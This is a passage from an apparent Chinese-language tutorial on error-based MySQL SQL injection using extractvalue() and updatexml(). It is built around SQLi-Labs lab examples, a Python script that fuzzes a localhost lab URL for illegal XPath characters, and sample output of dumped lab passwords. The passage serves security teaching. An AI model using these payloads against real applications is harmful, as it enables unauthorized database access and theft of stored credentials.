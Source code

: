 当XPath表达式`xpath_expr`不符合语法时，MySQL将输出处理后的XPath表达式并报错。当这一变量完全可控时，我们就可以构造相应的恶意表达式来爆库。为了让XPath表达式不符合语法，我们可以使用`~`、`0x0a`这类特殊字符：

```sql
mysql> SELECT * FROM users WHERE id='1' and extractvalue('kk',concat('~',(select database())));
ERROR 1105 (HY000): XPATH syntax error: '~security'

mysql> select * from users where id='1' and updatexml('anything',concat('~',(select database())),'anything');
ERROR 1105 (HY000): XPATH syntax error: '~security'
```

> 注意：XPath表达式在XML字符串中找不到指定的元素时，并不会报错，而是默认隐藏警告，并且令函数返回`NULL`，只有通过`SHOW WARNINGS`语句才能看到。因此，这种XPath表达式依然符合语法，MySQL的函数也不会报错。
>
> 为了让XPath表达式真正的非法，从而让函数报错，我们需要在XPath表达式中加入非法字符。经实测，所有非法字符如下所示：
>
> ```python
> import requests
> 
> url = "http://localhost/SQLi-Labs/Less-5/?id=1' and extractvalue('',concat({},(select database())))--+"
> 
> for i in range(0,256):
>     hexChar = hex(i)
>     currentUrl = url.format(hexChar)
>     result = requests.get(currentUrl)
>     if "syntax error" in result.text:
>         print("{} extractvalue()报错".format(hexChar))
>     else: # 什么也没有
>         print("{} extractvalue()返回NULL".format(hexChar))
> /*
>     0x0~0x1f
>         (缺0x20:空格)
>     0x21~0x23:
>     `	(缺0x24:$)
>     0x25~0x2c
>         (缺0x2d:-)
>     0x2e:.
>         (缺0x2f:/)
>     0x30~0x3f:?
>         (缺0x40:@和0x41~0x5a的所有大写祖母)
>     0x5b~0x5e
>         （缺0x5f:_）
>     0x60:`
>         (缺0x61-0x7a的所有小写字母)
>     0x7b~0xff
> */
> ```

> 注意：经过实测，报错信息只能返回32个字符。再扣除一个非法字符，能返回的只有31个字符：
>
> ```sql
> mysql> select group_concat(password) from users;
> +--------------------------------------------------------------------------------------------------+
> | group_concat(password)                                                                           |
> +--------------------------------------------------------------------------------------------------+
> | Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4 |
> +--------------------------------------------------------------------------------------------------+
> 